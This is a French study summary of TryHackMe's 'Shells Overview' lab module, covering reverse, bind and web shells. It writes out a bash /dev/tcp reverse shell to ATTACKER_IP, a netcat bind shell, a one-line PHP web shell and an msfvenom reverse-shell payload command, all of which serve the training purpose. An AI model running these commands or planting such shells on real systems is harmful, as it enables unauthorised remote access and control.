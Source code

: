 
# 🐚 Vue d'ensemble des Shells 🐚

> Ce document est une synthèse du module *Shells Overview* de TryHackMe, rédigée en français. Il couvre les différents types de shells utilisés en sécurité offensive, leurs différences et leurs cas d'utilisation.([Medium][1])

---

## 🎯 Objectifs d'apprentissage

* Comprendre les shells en sécurité offensive
* Configurer et utiliser des shells inversés et des shells liés
* Déployer des web shells([Medium][1])

---

## 📚 Prérequis

* Compréhension de base des réseaux
* Connaissances fondamentales en sécurité des applications web
* Maîtrise de base de la ligne de commande
* Familiarité avec des langages de script comme Bash, Python ou PHP([InfoSec Write-ups][2], [Medium][1])

---

## 🐚 Qu'est-ce qu'un Shell ?

Un shell est un logiciel qui permet à un utilisateur d'interagir avec un système d'exploitation. Il peut s'agir d'une interface graphique, mais il s'agit généralement d'une interface en ligne de commande.([InfoSec Write-ups][2])

En cybersécurité, un shell fait référence à une session spécifique qu'un attaquant utilise lorsqu'il accède à un système compromis, lui permettant d'exécuter des commandes et des logiciels.([Medium][1])

---

## 🔄 Shell Inversé (Reverse Shell)

Un shell inversé, parfois appelé "connect back shell", est l'une des techniques les plus populaires pour obtenir un accès à un système lors de cyberattaques. Les connexions sont initiées depuis le système cible vers la machine de l'attaquant, ce qui peut aider à éviter la détection par les pare-feu et autres dispositifs de sécurité réseau.([Medium][1])

### 🛠️ Configuration d'un écouteur Netcat (nc)

Pour comprendre comment fonctionne un shell inversé, utilisons l'outil Netcat. Cet utilitaire prend en charge plusieurs systèmes d'exploitation et permet la lecture et l'écriture via un réseau.([Medium][1])

Comme mentionné précédemment, un shell inversé se connectera à la machine de l'attaquant. Cette machine attendra une connexion, donc utilisons Netcat pour écouter une connexion en utilisant la commande suivante :([Medium][1])

```bash
nc -lvnp 443
```

Sur la machine cible, une commande typique pour établir un shell inversé pourrait ressembler à ceci :

```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

---

## 🔗 Shell Lié (Bind Shell)

Un shell lié est une technique où la machine cible écoute sur un port spécifique, attendant une connexion entrante de l'attaquant. Contrairement au shell inversé, c'est l'attaquant qui initie la connexion vers la machine cible.

### 🛠️ Configuration d'un shell lié avec Netcat

Sur la machine cible, pour écouter sur un port spécifique et exécuter un shell, la commande pourrait être :

```bash
nc -lvnp 4444 -e /bin/bash
```

Ensuite, sur la machine de l'attaquant, pour se connecter au shell lié :

```bash
nc TARGET_IP 4444
```

---

## 🌐 Web Shells

Un web shell est un script malveillant téléchargé sur un serveur web, permettant à un attaquant d'exécuter des commandes sur le serveur via une interface web. Ils sont souvent écrits en PHP, ASP ou d'autres langages de script côté serveur.([System Weakness][3])

### 🛠️ Exemple de web shell PHP simple

```php
<?php system($_GET['cmd']); ?>
```

En accédant à ce script via un navigateur avec une URL comme `http://target.com/shell.php?cmd=whoami`, l'attaquant peut exécuter des commandes sur le serveur.

---

## 🛡️ Stabilisation des Shells

Les shells obtenus via des connexions réseau peuvent être instables ou limités. Voici quelques techniques pour stabiliser une session shell :

* **Utiliser Python pour obtenir un shell interactif** :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

* **Utiliser `stty` pour configurer le terminal** :

```bash
stty raw -echo; fg
```

* **Utiliser `rlwrap` pour améliorer l'expérience du shell** :

```bash
rlwrap nc -lvnp 443
```

---

## 🧰 Outils et Payloads Communs

* **Netcat** : Outil polyvalent pour établir des connexions réseau, utilisé pour les shells inversés et liés.

* **Socat** : Outil similaire à Netcat mais avec plus de fonctionnalités, utile pour établir des connexions chiffrées et des shells plus stables.

* **Msfvenom** : Outil du framework Metasploit pour générer des payloads personnalisés.([System Weakness][3])

  Exemple de génération d'un payload shell inversé pour Linux :

  ```bash
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f elf -o shell.elf
  ```

---

## 🧠 Concepts Clés

* **Shell** : Interface en ligne de commande permettant d'interagir avec un système d'exploitation.

* **Shell Inversé** : Connexion initiée depuis la machine cible vers l'attaquant.([Medium][1])

* **Shell Lié** : Connexion initiée depuis l'attaquant vers la machine cible.

* **Web Shell** : Script malveillant sur un serveur web permettant l'exécution de commandes.

* **Stabilisation de Shell** : Techniques pour améliorer l'interactivité et la stabilité d'une session shell.

